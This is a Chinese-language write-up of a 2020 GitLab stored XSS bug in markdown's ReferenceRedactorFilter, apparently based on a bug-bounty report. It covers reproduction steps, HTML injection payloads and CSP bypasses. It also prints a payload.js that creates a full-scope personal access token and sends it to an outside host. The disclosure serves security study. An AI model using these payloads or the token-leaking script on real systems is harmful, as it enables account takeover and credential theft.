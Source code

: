 
https://gitlab.com/gitlab-org/gitlab/-/issues/213273

gitlab漏洞系列-存在于markdown中的存储型XSS

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。


## 背景

vakzz大佬于2020年提交了这个漏洞:

可以通过`ReferenceRedactorFilter`将任意html注入到标记中。这是因为data-original属性允许存储html编码的数据，然后将其提取并用作链接内容。如果原始数据已经被html编码，那么它将在编校后被未编码:
```ruby
    def redacted_node_content(node)  
      original_content = node.attr('data-original')  
      link_reference = node.attr('data-link-reference')

      # Build the raw <a> tag just with a link as href and content if  
      # it's originally a link pattern. We shouldn't return a plain text href.  
      original_link =  
        if link_reference == 'true'  
          href = node.attr('href')  
          content = original_content

          %(<a href="#{href}">#{content}</a>)  
        end

      # The reference should be replaced by the original link's content,  
      # which is not always the same as the rendered one.  
      original_link || original_content || node.inner_html  
    end  
```

## 复现步骤
1.用一个账户创建一个私有项目;

2.在这个私有项目中创建一个issue;

3.登出,然后重新以另外一个账户登录,此账户没有权限查看上面那个私有项目;

4.使用以下链接对与私人issue相关的issue发表评论:
```
link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1" title="title">xss &lt;img onerror=alert(1) src=x></a> 
```
5.渲染的markdown包含了注入的html:
```
<div class="md"><p data-sourcepos="1:1-1:124" dir="auto">link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1">xss <img onerror="alert(1)" src="x"></a></p></div> 
```

6.上面的代码被csp机制阻止了，但是可以像`https://hackerone.com/reports/662287#activity-6026826`(主要逻辑就是创建了一个类为`class='atwho-view select2-drop-mask pika-select' `的图像)一样绕过(需要点击页面上的任何地方，但是链接是全屏的):
```
link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1" title="title">csp   
&lt;a   
  data-remote=&quot;true&quot;  
  data-method=&quot;get&quot;  
  data-type=&quot;script&quot;  
  href=/wbowling/wiki/raw/master/test.js  
  class='atwho-view select2-drop-mask pika-select'  
&gt;  
  &lt;img height=10000 width=10000&gt;  
&lt;/a&gt;  
</a>  
```
产生了以下html:
```
<div class="md issue-realtime-trigger-pulse"><p data-sourcepos="1:1-11:4" dir="auto">link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1">csp  
</a><a data-remote="true" data-method="get" data-type="script" href="/wbowling/wiki/raw/master/test.js" class="atwho-view select2-drop-mask pika-select">  
<img height="10000" width="10000">  
</a>  
</p></div>  
```
## 影响
在ReferenceRedactor运行的任何地方，都可以注入任意的html。用户可以设置自己的私人项目，然后在公共项目上发表评论或问题，链接到该项目并注入xss


## 绕过csp示例
这里并不需要与用户交互
https://gitlab.com/username/project-name/-/issues/1
```
link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1" title="title">csp &lt;script src=&quot;/username/public/-/raw/master/test.js&quot;&gt;&lt;/script&gt; </a>
```
如果你通过git lfs(大文件存储,具体可以参考https://docs.github.com/en/repositories/working-with-files/managing-large-files/installing-git-large-file-storage)添加了一个javascript文件，那么它将会以 `content-type`为application/javascript结束，并且可以作为一个脚本src使用，因为在csp中`script-src 'self'`。
```
$ curl -I 'https://gitlab.com/vakzz-h1/public/-/raw/master/test.js'
HTTP/2 200
date: Thu, 02 Apr 2020 03:39:57 GMT
content-type: application/javascript
...
```
还有一个例子用来展示影响，如果你点击ok，它会创建一个个人令牌(注意是包含所有范围的令牌,注:gitlab里面的scopes指的是类似读，写仓库之类的权限,就是说拿到这个令牌,你可以对某个仓库进行读写操作,我这里只说大致的逻辑，方便读者理解)，并发送到远程服务器。xss可以隐藏在一个问题或评论中，并且可以触发任何查看页面的人。
issue的链接为:
`https://gitlab.com/vakzz-h1/stored-xss/-/issues/4`
填写在这个issue里面的code为:
```
<a href="https://gitlab.com/wbowling/private-project/-/issues/1" title="title">create and leak an access token 
&lt;script src=&quot;/vakzz-h1/public/-/raw/master/payload.js&quot;&gt;&lt;/script&gt;
</a>
```
payload.js为:
```JavaScript
async function getToken() {
const formData = new FormData();

formData.append(
document.querySelector('meta[name="csrf-param"]').content,
document.querySelector('meta[name="csrf-token"]').content
);
formData.append("personal_access_token[name]", "test");
formData.append("personal_access_token[scopes][]", "api");
formData.append("personal_access_token[scopes][]", "read_user");
formData.append("personal_access_token[scopes][]", "read_repository");
formData.append("personal_access_token[scopes][]", "write_repository");
formData.append("personal_access_token[scopes][]", "read_registry");

const response = await fetch(
"https://gitlab.com/profile/personal_access_tokens",
{
credentials: "include",
body: formData,
method: "POST",
mode: "cors"
}
);

const parser = new DOMParser();
const doc = parser.parseFromString(await response.text(), "text/html");
return doc.querySelector("#created-personal-access-token").value;
}

if (confirm("Create an access token?")) {
getToken().then(token => {
alert("Created token is: " + token);
const image = new Image();
image.src = `//aw.rs/g/leak.gif?token=${token}`;
});
}


```


## 后续
这个漏洞官方给了5000美元




